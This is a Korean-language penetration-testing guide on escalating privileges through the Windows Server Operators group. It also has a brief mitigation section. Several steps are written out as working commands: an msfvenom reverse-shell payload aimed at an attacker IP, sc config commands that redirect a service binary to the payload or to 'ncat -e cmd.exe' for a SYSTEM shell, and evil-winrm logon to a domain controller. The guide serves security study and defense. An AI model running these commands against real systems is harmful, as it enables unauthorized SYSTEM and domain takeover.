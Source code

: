 

# Server Operators 그룹을 이용한 권한 상승 가이드

`Server Operators`는 서버의 운영 및 관리를 위해 설계된 그룹으로, 멤버들은 서비스를 시작 및 중지하고, 백업 및 복원을 수행하며, 서버에 원격으로 로그인할 수 있는 등 강력한 권한을 가집니다. 이 권한들은 권한 상승의 경로로 악용될 수 있습니다.

https://www.hackingarticles.in/windows-privilege-escalation-server-operator-group/

---

### **1. 취약점 식별**

- **목표:** 현재 사용자가 `Server Operators` 그룹의 멤버인지 확인합니다.

```powershell(title="사용자 그룹 멤버십 확인")
whoami /groups
```

- **확인 사항:** 출력된 목록에서 `Server Operators` 그룹이 포함되어 있는지 확인합니다.

---

### **2. 공격 벡터**

#### **벡터 A: 서비스 제어를 통한 권한 상승**

- **원리:** `Server Operators`는 서비스를 시작하고 중지할 권한이 있습니다. 만약 이 그룹이 특정 서비스의 실행 파일(`binPath`)을 수정할 권한(`SERVICE_CHANGE_CONFIG`)까지 가지고 있다면, 해당 서비스의 실행 파일을 악성 페이로드로 교체하고 서비스를 재시작하여 `SYSTEM` 권한을 획득할 수 있습니다.

- **단계별 공격 절차:**
  1.  **권한 확인:** `accesschk.exe` 등으로 `Server Operators` 그룹이 수정 가능한 서비스를 찾습니다.
  2.  **페이로드 생성 및 업로드:** `msfvenom`으로 리버스 셸 `exe` 파일을 생성하여 서버에 업로드합니다.
  ```powershell
msfvenom -p windows/x64/shell/reverse_tcp lhost=192.168.1.205 lport=443 -f exe > shell.exe
      ```
  4.  **서비스 경로 변경:** `sc config` 명령어로 취약한 서비스의 `binPath`를 악성 페이로드의 경로로 변경합니다.
      ```powershell
      sc config <vulnerable_service> binPath= "C:\Temp\revshell.exe"
      ```
  5.  **서비스 재시작:** `sc stop` 및 `sc start` 명령어로 서비스를 재시작하여 페이로드를 실행시키고, 공격자 리스너에서 `SYSTEM` 셸을 획득합니다.
      ```powershell
      sc stop <vulnerable_service>
      sc start <vulnerable_service>
      ```

#### **벡터 B: 도메인 컨트롤러(DC) 원격 접속 (더 치명적)**

- **원리:** 기본적으로 `Server Operators` 그룹은 **도메인 컨트롤러에 원격으로 로그인할 수 있는 권한**을 가집니다. 이는 매우 큰 보안 위협으로, 공격자가 DC에 직접 접속하여 추가적인 권한 상승 공격(예: `mimikatz`를 이용한 메모리 덤프)을 수행할 발판을 마련해주기 때문입니다.

- **공격 절차:**
  1.  `Server Operators` 그룹에 속한 사용자의 자격증명을 획득합니다.
  2.  해당 자격증명을 사용하여 `evil-winrm`이나 `xfreerdp` 등으로 도메인 컨트롤러에 직접 원격 접속을 시도합니다.
      ```bash(title="evil-winrm을 이용한 DC 접속")
      evil-winrm -i <DC_IP> -u <server_operator_user> -p <password>
      ```
  3.  DC에 접속한 후, 추가적인 내부 정찰 및 권한 상승 공격을 수행하여 최종적으로 도메인 관리자 권한을 획득합니다.

---
### **3. 공격 절차**

- 이 그룹에 속해 있다면, `services`를 실행
- 수정할 수 있는 서비스들과 해당 서비스의 실행 파일(binary) 경로를 보여줌
- 리버스 쉘(revshell)을 생성한 후, 서비스의 실행 파일을 리버스 쉘로 교체


```powershell title="Windows"
services
sc.exe config VMTools binPath= "C:\Users\aarti\Documents\shell.exe"
sc.exe stop VMTools
sc.exe start VMTools
```

```powershell title="ncat reverse (Windows)"
sc.exe config AWSLiteAgent binPath= "C:\Windows\tasks\ncat.exe -e cmd.exe [kali_ip] 443"
```

```bash title="ncat reverse (Kali)"
nc -lvnp 443
```

---

### **4. 방어 (Mitigation)**

- **멤버십 최소화:** `Server Operators` 그룹의 멤버십을 엄격하게 제한하고, 일상적인 관리 작업에는 사용하지 않도록 합니다.
- **권한 감사:** 그룹 정책(GPO)을 통해 `Server Operators`의 DC 원격 로그온 권한을 제한하거나 제거하는 것을 고려합니다.
- **서비스 ACL 감사:** 각 서비스의 접근 제어 목록(ACL)을 정기적으로 검토하여 비정상적인 권한 할당이 없는지 확인합니다.

